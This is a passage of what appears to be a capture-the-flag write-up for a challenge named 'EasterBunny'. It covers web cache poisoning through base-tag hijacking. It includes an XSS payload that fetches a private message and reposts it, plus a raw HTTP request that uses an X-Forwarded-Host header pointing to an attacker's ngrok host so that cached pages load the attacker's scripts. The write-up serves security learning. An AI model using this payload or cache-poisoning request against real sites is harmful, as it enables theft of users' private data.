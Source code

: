    module.exports = Database;
    ```
    

# The Bug

[Web Cache Poisoning](../../Dev,%20ICT%20&%20Cybersec/Web%20&%20Network%20Hacking/Web%20Cache%20Poisoning.md)

Base-tag hijacking the cache:

![Untitled](../../zzz_res/attachments/EasterBunny%20e580b8ca86214deb837383b8e4c495a4%202.png)

![Untitled](../../zzz_res/attachments/EasterBunny%20e580b8ca86214deb837383b8e4c495a4%203.png)

Cached page is served to the bot and page scripts are retrieved from attacker’s injected host:

![Untitled](../../zzz_res/attachments/EasterBunny%20e580b8ca86214deb837383b8e4c495a4%204.png)

# Exploitation

## Exploitation #1 - Force write

Created an suitable directory structure and XSS payload: 

```bash
$ mkdir :80/
$ mkdir :80/static/
$ nano viewletter.js
fetch("http://127.0.0.1:80/message/3").then((r) => {
    return r.text();
}).then((x) => {
    fetch("http://127.0.0.1/submit", {
        "headers": {
            "content-type": "application/json"
        },
        "body": x,
        "method": "POST",
        "mode": "cors",
        "credentials": "omit"
    });
});

```

Poisoned the cache for the next letter:

```
GET /letters?id=16 HTTP/1.1
Host: 127.0.0.1
Upgrade-Insecure-Requests: 1
User-Agent: USR_ozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://159.65.59.5:31184/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
X-Forwarded-Host: ed97-2-42-243-225.ngrok.io/

HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: text/html; charset=utf-8
```